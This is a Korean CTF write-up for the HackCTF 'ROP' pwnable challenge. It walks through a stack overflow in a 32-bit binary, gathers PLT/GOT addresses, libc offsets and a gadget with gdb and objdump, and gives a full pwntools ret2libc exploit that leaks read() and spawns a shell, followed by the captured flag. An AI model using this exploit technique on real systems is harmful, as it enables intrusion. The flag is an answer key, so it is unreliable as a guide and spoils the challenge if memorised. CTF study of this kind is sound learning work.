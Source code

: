 #ROP

---

우선 `main()`의 코드를 보자.

<pre>
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
</pre>

아주 간단하며 취약한 함수 `vulnerable_function()`을 호출한다. 이 함수의 코드를 보자.

<pre>
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  return read(0, &buf, 0x100u);
}
</pre>

이 함수에서 buf의 위치는 [ebp-0x88]인데 `read()`에서 0x100bytes만큼을 읽어오기 때문에 stackoverflow로 인해서 return주소를 조작할 수 있다.

익스시나리오는 다음과 같다. `write()`함수를 통해서 `read()`의 got를 출력, 즉 `read()`의 주소를 알아낸 후, `read()`의 offset값으로 libc_base의 주소를 알아내어 system("/bin/sh")를 실행시키도록 할 것이다. 도중에는 `read()`의 주소값으로 계산을 하는 과정이 있어야 하기에 `vulnerable_function()`으로 돌아가는 과정이 필요하다. 때문에 필요한 정보들은 다음과 같다.

**write\_plt <br>
read\_got <br>
read\_offset <br>
vulnerable\_function\_address <br>
pppr\_address <br>
system\_offset <br>
binsh\_offset**

하나씩 구해보면 다음과 같다.

<pre>
gdb-peda$ p write
$1 = {<text variable, no debug info>} 0x8048340 <write@plt>
gdb-peda$ p read
$2 = {<text variable, no debug info>} 0x8048310 <read@plt>
gdb-peda$ x/i 0x8048310
   0x8048310 <read@plt>:	jmp    DWORD PTR ds:0x804a00c
gdb-peda$ p vulnerable_function 
$3 = {<text variable, no debug info>} 0x804844b <vulnerable_function>
</pre>

**write\_plt=0x8048340 <br>
read\_plt=0x8048310 <br>
read\_got=0x804a00c <br>
vulnerable\_function\_address=0x804844b**

<pre>
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x3a940 <system>
gdb-peda$ p read
$2 = {<text variable, no debug info>} 0xd4350 <read>
</pre>

**read\_offset=0xd4350 <br>
system\_offset=0x3a940**

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/22.ROP$ objdump -d rop | grep -B4 "ret"
...  
 8048509:	5e                   	pop    %esi
 804850a:	5f                   	pop    %edi
 804850b:	5d                   	pop    %ebp
 804850c:	c3                   	ret    
...
</pre>

**pppr\_address=0x8048509**

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/22.ROP$ strings -tx libc.so.6 | grep "/bin/sh"
 15902b /bin/sh
</pre>

**binsh\_offset=0x15902b**

다음과 같은 코드로 익스할 수 있었다.

<pre>
from pwn import*

p=remote('ctf.j0n9hyun.xyz',3021)

write_plt=0x8048340
read_plt=0x8048310
read_got=0x804a00c
vulnerable_function_address=0x804844b
read_offset=0xd4350
system_offset=0x3a940
pppr_address=0x8048509
binsh_offset=0x15902b


payload='A'*140
payload+=p32(write_plt)
payload+=p32(pppr_address)
payload+=p32(1)
payload+=p32(read_got)
payload+=p32(4)
payload+=p32(vulnerable_function_address)

p.sendline(payload)

read_address=u32(p.recv(4))

log.info("read_address is "+str(hex(read_address)))

libc_base=read_address-read_offset
system_address=libc_base+system_offset
binsh_address=libc_base+binsh_offset

payload2='A'*140
payload2+=p32(system_address)
payload2+='AAAA'
payload2+=p32(binsh_address)

p.sendline(payload2)

log.info("system_address is "+str(hex(system_address)))

p.interactive()
</pre>

flag는 다음과 같다.

<pre>
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/22.ROP$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3021: Done
[*] read_address is 0xf7e16350
[*] system_address is 0xf7d7c940
[*] Switching to interactive mode
$ whoami
attack
$ cat flag
HackCTF{4bcd3fg7ijPlmA4pqrtuvxza2cdef}
</pre>

**flag: HackCTF{4bcd3fg7ijPlmA4pqrtuvxza2cdef}**